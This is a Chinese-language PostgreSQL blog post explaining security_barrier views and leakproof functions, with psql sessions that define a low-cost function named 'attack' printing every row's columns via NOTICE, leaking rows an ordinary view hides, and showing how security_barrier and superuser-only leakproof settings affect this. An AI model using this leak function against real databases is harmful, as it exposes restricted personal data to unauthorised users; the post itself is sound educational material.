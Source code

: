 ## PostgreSQL leakproof function in rule rewrite("attack" security_barrier views)  
##### [TAG 6](../class/6.md)
                                                 
### 作者                                                 
digoal                                                  
                                                    
### 日期                                                  
2014-04-14                                                                          
                                                  
### 标签                                                                                                                                                                  
PostgreSQL , leakproof , 安全栅栏 , 优化器 , 算子优先级 , 视图攻击                              
                                              
----                                                  
                                                
## 背景              
上一篇BLOG我介绍了一下PostgreSQL 9.4新增的一个功能, 支持自动更新设置了安全栅栏的简单视图.  
  
http://blog.163.com/digoal@126/blog/static/163877040201431475019925/  
  
在文章结尾的时候提到leakproof函数和安全栅栏条件一样, 在重写规则时会放到用户的过滤条件之前执行.  
  
因此, 安全栅栏并不能防止leakproof的攻击(当然, 只有超级用户才能创建leakproof函数, 所以也不能说利用leakproof来攻击了. 因为既然有了超级用户权限, 就不需要这么麻烦来获取数据了, 直接读原表得了.).   
  
另外, 使用leakproof函数需要注意的是它的实际执行成本, 如果实际执行成本很高的函数, 又没有特别的需要让它先执行, 那么最好不要设置为leakproof, 因为它不管其他过滤条件, 都是先执行的.  
  
我们可以拿视图攻击的例子来演示这个攻击 :   
  
## 正文  
普通视图的攻击例子 :   
  
```  
digoal=# create table userinfo(id int, groupid int, username text, age int, addr text, email text, phone text);  
CREATE TABLE  
digoal=# insert into userinfo values (1, 1, 'digoal', 1000, '杭州西湖区', 'digoal@126.com', '13999999999');  
INSERT 0 1  
digoal=# insert into userinfo values (2, 1, 'test', 1000, '火星', 'digoal@126.com', '11999999999');  
INSERT 0 1  
digoal=# insert into userinfo values (3, 1, 'test', 1000, '月球', 'digoal@126.com', '11999999999');  
INSERT 0 1  
digoal=# insert into userinfo values (4, 2, 'test', 1000, '土星', 'digoal@126.com', '11999999999');  
INSERT 0 1  
digoal=# create view v_userinfo as select * from userinfo where groupid =2;  
CREATE VIEW  
digoal=# \c digoal digoal  
You are now connected to database "digoal" as user "digoal".  
digoal=> select * from userinfo;  
ERROR:  permission denied for relation userinfo  
digoal=> select * from v_userinfo;  
ERROR:  permission denied for relation v_userinfo  
digoal=> \c digoal postgres  
You are now connected to database "digoal" as user "postgres".  
digoal=# grant select on v_userinfo to digoal;  
GRANT  
digoal=# \c digoal digoal  
You are now connected to database "digoal" as user "digoal".  
digoal=> select * from v_userinfo;  
 id | groupid | username | age  | addr |     email      |    phone      
----+---------+----------+------+------+----------------+-------------  
  4 |       2 | test     | 1000 | 土星 | digoal@126.com | 11999999999  
(1 row)  
  
digoal=> create or replace function attack(int,int,text,int,text,text,text) returns boolean as $$  
digoal$> declare  
digoal$> begin  
digoal$>   raise notice '%,%,%,%,%,%,%', $1,$2,$3,$4,$5,$6,$7;  
digoal$>   return true;  
digoal$> end;  
digoal$> $$ language plpgsql cost 0.00000000000000000000001;  
CREATE FUNCTION  
digoal=> select * from v_userinfo;  
 id | groupid | username | age  | addr |     email      |    phone      
----+---------+----------+------+------+----------------+-------------  
  4 |       2 | test     | 1000 | 土星 | digoal@126.com | 11999999999  
(1 row)  
  
digoal=> select * from v_userinfo where attack(id,groupid,username,age,addr,email,phone);  
NOTICE:  1,1,digoal,1000,杭州西湖区,digoal@126.com,13999999999  
NOTICE:  2,1,test,1000,火星,digoal@126.com,11999999999  
NOTICE:  3,1,test,1000,月球,digoal@126.com,11999999999  
NOTICE:  4,2,test,1000,土星,digoal@126.com,11999999999  
 id | groupid | username | age  | addr |     email      |    phone      
----+---------+----------+------+------+----------------+-------------  
  4 |       2 | test     | 1000 | 土星 | digoal@126.com | 11999999999  
(1 row)  
```  
  
设置视图的安全栅栏属性 :   
  
使用普通的函数就不能攻击他了.  
  
```  
digoal=> \c digoal postgres  
You are now connected to database "digoal" as user "postgres".  
digoal=# create view v_userinfo_1 with(security_barrier) as select * from userinfo where id=2;  
CREATE VIEW  
  
digoal=# grant select on v_userinfo_1 to digoal;  
GRANT  
digoal=# \c digoal digoal  
You are now connected to database "digoal" as user "digoal".  
digoal=> select * from v_userinfo_1 where attack(id,groupid,username,age,addr,email,phone);  
NOTICE:  2,1,test,1000,火星,digoal@126.com,11999999999  
 id | groupid | username | age  | addr |     email      |    phone      
----+---------+----------+------+------+----------------+-------------  
  2 |       1 | test     | 1000 | 火星 | digoal@126.com | 11999999999  
(1 row)  
```  
  
但是, 如果把函数设置为leakproof, 就可以被攻击了.  
  
```  
digoal=> \c digoal postgres  
You are now connected to database "digoal" as user "postgres".  
digoal=# alter function digoal.attack(int,int,text,int,text,text,text) leakproof;  
ALTER FUNCTION  
digoal=# \c digoal digoal  
You are now connected to database "digoal" as user "digoal".  
digoal=> select * from v_userinfo_1 where attack(id,groupid,username,age,addr,email,phone);  
NOTICE:  1,1,digoal,1000,杭州西湖区,digoal@126.com,13999999999  
NOTICE:  2,1,test,1000,火星,digoal@126.com,11999999999  
NOTICE:  3,1,test,1000,月球,digoal@126.com,11999999999  
NOTICE:  4,2,test,1000,土星,digoal@126.com,11999999999  
 id | groupid | username | age  | addr |     email      |    phone      
----+---------+----------+------+------+----------------+-------------  
  2 |       1 | test     | 1000 | 火星 | digoal@126.com | 11999999999  
(1 row)  
```  
  
原因是在重写规则时, leakproof函数和安全栅栏条件一样, 被放到了relation层过滤, 而普通函数则在子查询中过滤 :   
  
```  
digoal=> explain verbose select * from v_userinfo_1 where attack(id,groupid,username,age,addr,email,phone);  
                                                                       QUERY PLAN                                                     
                       
------------------------------------------------------------------------------------------------------------------------------------  
---------------------  
 Seq Scan on public.userinfo  (cost=0.00..34.00 rows=3 width=140)  
   Output: userinfo.id, userinfo.groupid, userinfo.username, userinfo.age, userinfo.addr, userinfo.email, userinfo.phone  
   Filter: (attack(userinfo.id, userinfo.groupid, userinfo.username, userinfo.age, userinfo.addr, userinfo.email, userinfo.phone) AN  
D (userinfo.id = 2))  
(3 rows)  
  
digoal=> \c digoal postgres  
You are now connected to database "digoal" as user "postgres".  
digoal=# alter function digoal.attack(int,int,text,int,text,text,text) not leakproof;  
ALTER FUNCTION  
digoal=# \c digoal digoal  
You are now connected to database "digoal" as user "digoal".  
digoal=> explain verbose select * from v_userinfo_1 where attack(id,groupid,username,age,addr,email,phone);  
                                                                         QUERY PLAN                                                   
                           
------------------------------------------------------------------------------------------------------------------------------------  
-------------------------  
 Subquery Scan on v_userinfo_1  (cost=0.00..34.10 rows=3 width=140)  
   Output: v_userinfo_1.id, v_userinfo_1.groupid, v_userinfo_1.username, v_userinfo_1.age, v_userinfo_1.addr, v_userinfo_1.email, v_  
userinfo_1.phone  
   Filter: attack(v_userinfo_1.id, v_userinfo_1.groupid, v_userinfo_1.username, v_userinfo_1.age, v_userinfo_1.addr, v_userinfo_1.em  
ail, v_userinfo_1.phone)  
   ->  Seq Scan on public.userinfo  (cost=0.00..34.00 rows=10 width=140)  
         Output: userinfo.id, userinfo.groupid, userinfo.username, userinfo.age, userinfo.addr, userinfo.email, userinfo.phone  
         Filter: (userinfo.id = 2)  
(6 rows)  
```  
  
当然, 只有超级用户才能创建leakproof函数, 所以也不能说利用leakproof来攻击了. 因为既然有了超级用户权限, 就不需要这么麻烦来获取数据了, 直接读原表得了.  
  
```  
digoal=> \c digoal digoal  
You are now connected to database "digoal" as user "digoal".  
digoal=> alter function digoal.attack(int,int,text,int,text,text,text) not leakproof;  
ALTER FUNCTION  
digoal=> alter function digoal.attack(int,int,text,int,text,text,text) leakproof;  
ERROR:  only superuser can define a leakproof function  
```  
  
## 参考  
1\. http://www.postgresql.org/docs/devel/static/rules-privileges.html  
  
2\. http://blog.163.com/digoal@126/blog/static/163877040201361031431669/  
  
3\. http://blog.163.com/digoal@126/blog/static/163877040201431475019925/  
    
                          
  
<a rel="nofollow" href="http://info.flagcounter.com/h9V1"  ><img src="http://s03.flagcounter.com/count/h9V1/bg_FFFFFF/txt_000000/border_CCCCCC/columns_2/maxflags_12/viewers_0/labels_0/pageviews_0/flags_0/"  alt="Flag Counter"  border="0"  ></a>  
  
